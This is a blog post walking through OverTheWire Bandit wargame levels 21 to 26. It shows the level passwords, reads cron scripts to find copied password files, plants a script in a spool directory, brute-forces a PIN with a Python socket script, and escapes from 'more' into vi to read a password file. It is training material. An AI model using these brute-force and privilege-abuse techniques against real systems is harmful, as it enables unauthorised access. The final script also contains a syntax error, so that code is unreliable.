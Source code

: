 ```yaml
---
title: "Linux training with overthewire [Part 3/10: Bandit 21-30]"
author: Florian Courgey
layout: post
categories:
  - opensource
  - linux
  - bash
  - shell
  - hack
  - server
---
```

Excerpt here...
<!--more-->

This post is part of a series:
- [Linux training with overthewire Part 1: Bandit 1-10]({% post_url 2018-11-30-linux-training-overthewire-bandit-1 %})
- [Linux training with overthewire Part 2: Bandit 11-20]({% post_url 2018-11-30-linux-training-overthewire-bandit-2 %})
- Linux training with overthewire Part 3: Bandit 21-30
- [Linux training with overthewire Part 4: Natas]({% post_url 2018-11-30-linux-training-overthewire-natas-1 %})

### Level 21 - CRON
```bash
ssh -p 2220 bandit21@bandit.labs.overthewire.org
# gE269g2h3mw3pwgrj0Ha9Uoqen1c9DGr http://overthewire.org/wargames/bandit/bandit22.html
```
```bash
$ cat /etc/cron.d/
cronjob_bandit22  cronjob_bandit23  cronjob_bandit24
$ cat /etc/cron.d/cronjob_bandit22
@reboot bandit22 /usr/bin/cronjob_bandit22.sh &> /dev/null
$ cat /usr/bin/cronjob_bandit22.sh
cat /etc/bandit_pass/bandit22 > /tmp/t7O6lds9S0RqQh9aMcz6ShpAoZKF7fgv
$ cat /tmp/t7O6lds9S0RqQh9aMcz6ShpAoZKF7fgv
Yk7owGAcWjwMVRwrTesJEwB7WVOiILLI
```

### Level 22 - Bash script 1
```bash
ssh -p 2220 bandit22@bandit.labs.overthewire.org
# Yk7owGAcWjwMVRwrTesJEwB7WVOiILLI http://overthewire.org/wargames/bandit/bandit23.html
```
```bash
$ cat /etc/cron.d/cronjob_bandit23
@reboot bandit23 /usr/bin/cronjob_bandit23.sh  &> /dev/null
$ cat /usr/bin/cronjob_bandit23.sh
#!/bin/bash
myname=$(whoami)
mytarget=$(echo I am user $myname | md5sum | cut -d ' ' -f 1)
echo "Copying passwordfile /etc/bandit_pass/$myname to /tmp/$mytarget"
$ myname=bandit23 && echo $(echo I am user $myname | md5sum | cut -d ' ' -f 1)
8ca319486bfbbc3663ea0fbe81326349
$ cat /tmp/8ca319486bfbbc3663ea0fbe81326349
jc1udXuA1tiHqjIsL8yaapX5XIAI6i0n
```

### Level 23 - Bash script 2
```bash
ssh -p 2220 bandit23@bandit.labs.overthewire.org
# jc1udXuA1tiHqjIsL8yaapX5XIAI6i0n http://overthewire.org/wargames/bandit/bandit24.html
```
```bash
$ cat /usr/bin/cronjob_bandit24.sh
#!/bin/bash
myname=$(whoami)
cd /var/spool/$myname
echo "Executing and deleting all scripts in /var/spool/$myname:"
$ ls /var/spool/bandit24/
lol.sh  script.sh
$ cat /var/spool/bandit24/*
#!/bin/sh
cat /etc/bandit_pass/bandit24 > /tmp/tmp.AuFwziaI3a/lol.txt
$ cat /tmp/tmp.AuFwziaI3a/lol.txt
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ
```

### Level 24 - Bruteforce script (in `python`)
```bash
ssh -p 2220 bandit24@bandit.labs.overthewire.org
# UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ http://overthewire.org/wargames/bandit/bandit25.html
```
Let's test first with `nc`
```bash
$ echo "$(cat /etc/bandit_pass/bandit24) 0000" | nc localhost 30002
Wrong! Please enter the correct pincode. Try again.
```
Now that we have our Bad Boy (Wrong...), it's Bruteforce time! From 0000 to 9999. I choose python and the standard `socket` library:
- `bytes_data = socket.recv(buffer_size)` to receive data
- `socket.sendall(bytes_data)` to send data

Quick test in python 3:
```bash
$ cd $(mktemp -d) && vim main.py
```
```python
import socket

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(('localhost', 30002)); s.recv(1024) # to remove first banner msg
for i in range(0,3):
    s.sendall(str.encode('UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ '+str(i)+'\n'))
    print(s.recv(1024).decode()) # print response
```
```bash
$ python3 main.py
b'Wrong! Please enter the correct pincode. Try again.\n'
b'Wrong! Please enter the correct pincode. Try again.\n'
b'Wrong! Please enter the correct pincode. Try again.\n'
```

Full code in python:
```python
import socket

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(('localhost', 30002)); s.recv(1024)
for i in range(0,9999):
    pin = str(i).zfill(4)
    if i%100 == 0:
      print('Sending '+pin)
    s.sendall(str.encode('UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ '+pin+'\n'))
    data = s.recv(1024).decode()
    if not data.startswith('Wrong'):
      print('PIN '+pin+': 'data)
      exit()
```
```terminal
Sending 0000
Sending 0100
Sending 0200
Sending 0300
PIN 0378: Correct!
The password of user bandit25 is uNG9O58gUE7snukf3bvZ0rxhtnjzSGzG
```

### Level 25 - Custom shell
```bash
ssh -p 2220 bandit25@bandit.labs.overthewire.org
# uNG9O58gUE7snukf3bvZ0rxhtnjzSGzG http://overthewire.org/wargames/bandit/bandit26.html
```

Exploit of the `more` command by reducing terminal's height so `more` hangs. This way we can execute command such as `v` to fire up a `vi` editor.

Then in `vi`: `:r /etc/bandit_pass/bandit26`.

5czgV9L3Xx8JPOyRbXh6lQbmIOWvPT6Z

### Level 26 -
```bash
ssh -p 2220 bandit26@bandit.labs.overthewire.org
# 5czgV9L3Xx8JPOyRbXh6lQbmIOWvPT6Z http://overthewire.org/wargames/bandit/bandit27.html
```



This post is part of a series:
- [Linux training with overthewire Part 1: Bandit 1-10]({% post_url 2018-11-30-linux-training-overthewire-bandit-1 %})
- [Linux training with overthewire Part 2: Bandit 11-20]({% post_url 2018-11-30-linux-training-overthewire-bandit-2 %})
- Linux training with overthewire Part 3: Bandit 21-30
- [Linux training with overthewire Part 4: Natas]({% post_url 2018-11-30-linux-training-overthewire-natas-1 %})
